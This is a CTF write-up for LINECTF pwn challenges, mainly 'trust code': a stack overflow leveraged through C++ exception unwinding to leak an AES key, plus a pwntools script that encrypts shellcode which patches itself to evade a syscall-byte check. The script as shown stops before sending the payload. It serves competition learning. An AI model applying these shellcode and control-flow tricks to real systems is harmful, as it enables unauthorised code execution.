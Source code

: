# LINECTF WriteUp By Straw Hat

> author: Straw Hat

[TOC]

## Pwn

### ecrypt

su and cat flag.

### trust code

The vulnerability is very easy to spot: the stack buffer overflow when reading "iv". However, canary is on the stack and the function actually does not return to where we overflowed. Instead, it throws an exception because the decrypted shellcode does not start with "TRUST_CODE_ONLY!".

After playing around with the overflowed value, I found that for some addresses, the program crashes inside `_Unwind_RaiseException`, and for some other it just exits gracefully. So I googled for "\_Unwind\_RaiseException pwn" and found a [writeup](https://www.anquanke.com/post/id/89855). Basically, there're a few valid addresses you can redirect the program to. 

If you use Ghidra, it's easy to find the valid return addresses (those after the "try{}" in disassembly view). I tried a few and found an address (0x55555555565a) which can print out the secret_key. Then we're good to write a shellcode and execute it.

Just use instruction add to bypass '0f05' check.

```python
from pwn import *
from Crypto.Cipher import AES

def add_to_16(text):
    if len(text) % 16:
        add = 16 - (len(text) % 16)
    else:
        add = 0
    text = text + ('\0' * add)
    return text

# s = process("./trust_code")
s = remote("35.190.227.47","10009")

key = 'v0nVadznhxnv$nph'
iv = 'DEADBEEFDEADBEEF'
mode = AES.MODE_CBC
context.arch = 'amd64'
shellcode = '''
    add word ptr [rax+0x12],0x101
    mov rsi,rax
    push 0x100
    pop rdx
    xor rax,rax
'''
shellcode = asm(shellcode)+p16(0x040e)
shellcode = shellcode.ljust(0x20,'\x90')
buf = 'TRUST_CODE_ONLY!'+shellcode

aes = AES.new(key,mode,iv)
buf = add_to_16(buf)
payload = aes.encrypt(buf)
# gdb.attach(s,"b *$rebase(0x156c)\nc")
print(shellcode)
s.sendafter("iv>",iv)
```